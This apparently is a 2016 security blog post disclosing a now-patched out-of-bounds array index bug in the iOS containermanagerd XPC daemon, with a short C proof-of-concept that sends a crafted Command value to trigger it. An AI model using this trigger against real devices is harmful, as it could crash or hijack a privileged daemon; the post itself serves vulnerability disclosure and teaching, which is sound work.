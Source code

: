 ```yaml
---
layout: post
title:  "[CVE-2016-????] iOS containermanagerd XPC array out of bound vulnerability"
date:   2016-06-17 12:00:00 +0800
categories: security apple xpc
---
```


Today I remembered about a iOS bug I had in `containermanagerd`, and I tought to check if it still was present in `iOS 10 beta`.

## Preliminary informations

`containermanagerd` is a privileged daemon on iOS that manages application containers and stuff.

`XPC` is a OS X/iOS IPC higher level mechanism compared to mach messages or MIG...

You may want to also check some research on `XPC`, such as [`Pangu` presentations][pangu-xpc], and `Ian Beer` Project Zero bugs, PoCs and presentation.

## Brief Explanation

If you want to follow along, you can also do it thanks to the "Apple leak" on `iOS 10`, where they forgot to encrypt a bunch of stuff in the `ipsw` of several models, including the `root filesystem` (so you can get the `containermanagerd` binary and drop it in `IDA Pro`) and `kernelcache`.

As you can imagine since I'm writing this post, the bug has been fixed in `iOS 10`.

The post will be fairly short, just dropping the trigger `PoC`.

The bug is fairly simple, we control a index used with an "array of commands", in which a command is a string and a function pointer (huh?), so we can make the program grab a "command" from a wrong location, possibly executing arbitrary code.

If you want to see more details about the bug, just drop a unpatched version of `containermanagerd` in IDA.

## Vulnerable Code

![containermanagerd patched](/assets/containermanagerd.jpg)

The red box is the new added check in iOS 10 on the array index, which comes from the input with `xpc_dictionary_get_uint64` with "Command" key (wrongly shown in IDA decompilation).

Later after this index is used to access the array I mentioned.

This is how the code looks like in iOS 9.2 `containermanagerd`

![containermanagerd vuln](/assets/containermanagerd_vuln.jpg)

## PoC:

{% highlight c %}
#include "xpc/xpc.h"
#include <CoreFoundation/CoreFoundation.h>

int main(int argc, char **argv, char **envp) {
    xpc_connection_t client = xpc_connection_create_mach_service("com.apple.containermanagerd",
                                                                   NULL,
                                                                     0);
    xpc_connection_set_event_handler(client, ^(xpc_object_t event) {
        //connection err handler
    });
    xpc_connection_resume(client);
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);



    xpc_dictionary_set_uint64(message, "Command", 0x41414141);
    xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, message);

    NSLog(@"reply %@", reply);

    return 0;
}
{% endhighlight %}

#### Take aways:
- All input that comes via IPC should be treated as untrusted.

[pangu-xpc]: https://www.blackhat.com/docs/us-15/materials/us-15-Wang-Review-And-Exploit-Neglected-Attack-Surface-In-iOS-8.pdf
